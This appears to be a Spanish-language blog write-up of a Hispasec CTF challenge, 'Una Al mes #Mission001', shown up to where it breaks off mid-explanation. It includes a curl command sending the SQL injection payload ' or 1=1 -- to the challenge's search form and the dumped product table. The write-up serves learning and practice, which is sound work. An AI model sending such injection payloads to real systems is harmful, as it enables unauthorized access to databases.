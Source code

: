 ```yaml
---
title: "Write-up – CTF: Una Al mes #Mission001 – SQLi / Forensics / Crypto"
author: Jose M
classes: wide
excerpt: "El pasado 15 de Noviembre se presento el primer reto CTF de Una Al mes de Hispasec. Aquí traemos el write-up y aunque era sencillo, nosotros hemos aprendido mucho con él así que esperamos que os guste."
categories:
  - Pentest
tags:
  - Forencsics
  - Criptografía
  - CTF
---
```

El pasado 15 de Noviembre se presento el primer reto *CTF* de [Una Al mes](http://unaaldia.hispasec.com/2017/11/quieres-jugar-un-juego-demuestra-tus.html) de Hispasec. Aquí traemos el *write-up *y aunque era sencillo, nosotros hemos aprendido mucho con él así que esperamos que os guste.
{: style="text-align: justify;"}

[![Descripción CTF - Write-up Una Al mes #Mission001](https://donttouchmynet.github.io/assets/images/old/Screenshot-2017-11-30-Mission001-300x177.jpg "Descripción CTF - Write-up Una Al mes #Mission001")](https://donttouchmynet.github.io/assets/images/old/Screenshot-2017-11-30-Mission001.jpg)

Descripción CTF -- Write-up Una Al mes #Mission001

Accedemos a la URL que nos facilitan donde nos cuentan la misión.

Objetivo: Buscar prueba incriminatoria de que están haciendo algo malo en una empresa farmacéutica.

Nos facilitan una URL de un supuesto equipo interno: http://34.253.233.243/form1.php

[![Página inicio CTF - Write-up Una Al mes #Mission001](https://donttouchmynet.github.io/assets/images/old/Screenshot-2017-11-30-Pharma-Corp-DB-300x177.jpg "Página inicio CTF - Write-up Una Al mes #Mission001")](https://donttouchmynet.github.io/assets/images/old/Screenshot-2017-11-30-Pharma-Corp-DB.jpg)

Página inicio CTF -- Write-up Una Al mes #Mission001

Aquí encontramos un buscador. Este buscado a priori no devuelve nada al introducir una cadena de caracteres al azar. Haciendo pruebas vemos que al introducir «1»  si que nos devuelve un resultado.
{: style="text-align: justify;"}
```
ID: 1 - NAME: MORPHINE - STOCK: 500
```
#### Comprobando si es vulnerable a SQLi

El primer paso es comprobar si la aplicación es vulnerable a  *SQLi*.
```
# curl --data "search_text=' or 1=1 --" http://34.253.233.243/search1.php
 ID: 1 - NAME: MORPHINE - STOCK: 500</br>ID: 2 - NAME: ANALGESIC - STOCK: 800</br>ID: 3 - NAME: CHLORIDE ACID - STOCK: 200</br>ID: 4 - NAME: COLLAGEN - STOCK: 450</br>ID: 5 - NAME: MAGNESIUM - STOCK: 450</br>ID: 6 - NAME: VOLTADOL - STOCK: 675</br>ID: 7 - NAME: FORTASEC - STOCK: 555</br>ID: 8 - NAME: DULCOLAXO - STOCK: 390</br>ID: 9 - NAME: VENORUTON - STOCK: 690</br>ID: 10 - NAME: FLUIMOCIL - STOCK: 980</br>ID: 11 - NAME: UTABON - STOCK: 630</br>ID: 12 - NAME: THROMBOCID - STOCK: 720</br>ID: 13 - NAME: LIZIPADOL - STOCK: 661</br>ID: 14 - NAME: HEMOCLIN - STOCK: 270</br>ID: 15 - NAME: FISIOCREM - STOCK: 140</br>ID: 16 - NAME: EPAPLUS - STOCK: 300</br>ID: 17 - NAME: ALMAX - STOCK: 400</br>ID: 18 - NAME: GAVISCON - STOCK: 510</br>ID: 19 - NAME: CLARIYTINE - STOCK: 50</br>ID: 20 - NAME: CINFATOS - STOCK: 860</br>ID: 21 - NAME: AZARON - STOCK: 330</br>ID: 22 - NAME: JUANOLA - STOCK: 830</br>ID: 23 - NAME: DICLODOLOR - STOCK: 190</br>ID: 24 - NAME: AZOL - STOCK: 300</br>ID: 25 - NAME: SYSTANE - STOCK: 400</br>ID: 26 - NAME: VIAGRA - STOCK: 300</br>ID: 27 - NAME: ACICLOVIR - STOCK: 200</br>
```
Esto es por que después de hacer pruebas vemos que sólo devuelve resultado si introducimos un número entre 1 y 26, que corresponde al id del producto. También si introducimos el nombre del medicamento completo. Así que deducimos que la clausula *WHERE* es algo tal que así:
{: style="text-align: justify;"}